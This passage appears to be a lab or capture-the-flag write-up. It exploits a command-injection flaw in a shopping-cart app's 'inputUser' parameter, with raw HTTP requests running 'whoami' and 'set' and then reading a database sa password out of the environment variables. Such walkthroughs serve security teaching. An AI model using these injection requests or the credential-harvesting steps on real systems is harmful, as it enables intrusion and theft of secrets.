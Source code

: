 - We can detect a RCE vulnerability in the function that allows us to add products to the cart.
```http
GET /main?inputUser=whoami HTTP/1.1
Host: as-grncuhljyx2654793.azurewebsites.net
Cookie: JSESSIONID=175A22D595AD918290CF5A0F2F81DBB2; ARRAffinity=a111ebcedc0a60e992fbce189d9819c72663447f45b10c6fdd43ab459f5275d0; ARRAffinitySameSite=a111ebcedc0a60e992fbce189d9819c72663447f45b10c6fdd43ab459f5275d0
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://as-grncuhljyx2654793.azurewebsites.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: close
```

- The response holds the result of the command we executed.
```http
HTTP/1.1 200 OK
Content-Length: 1685
Connection: close
Date: Tue, 09 Apr 2024 09:33:12 GMT
X-Powered-By: ASP.NET

<snip>
            
            
            <div class="col-lg-12">
                <div class="content-error">
                    <h1>Search Result :</h1>
                    <br><br>
                    <pre style="color: white; background-color: #152036;">iis apppool\as-grncuhljyx2654793</pre>                    
                </div>
            </div>
            
<snip>

</body>
</html>
```

- We can now list the Environment Variables using the following HTTP Request.
```http
GET /main?inputUser=set HTTP/1.1
Host: as-grncuhljyx2654793.azurewebsites.net
Cookie: JSESSIONID=175A22D595AD918290CF5A0F2F81DBB2; ARRAffinity=a111ebcedc0a60e992fbce189d9819c72663447f45b10c6fdd43ab459f5275d0; ARRAffinitySameSite=a111ebcedc0a60e992fbce189d9819c72663447f45b10c6fdd43ab459f5275d0
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://as-grncuhljyx2654793.azurewebsites.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: close
```

- Once we get the output we can search for the strings such as `MySqlServer`, `Oracle`, `DBcon` and other similar strings to check if there are any credentials visible in the connection string.
```http
<snip>

BConn=Persist Security Info=False;User ID=sa;Password=1EV8?S^i(3[/MgYtNT+[;

<snip>
```